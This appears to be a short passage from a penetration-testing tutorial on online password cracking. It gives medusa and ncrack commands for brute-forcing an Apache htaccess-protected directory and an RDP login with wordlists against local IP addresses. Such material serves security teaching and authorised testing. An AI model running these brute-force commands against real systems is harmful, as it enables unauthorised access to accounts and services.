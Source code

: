 # Online password cracking


There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP. 


## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess (I exaplin this in the chapter on Common ports).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Remote Desktop Protocol - Port 3389

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```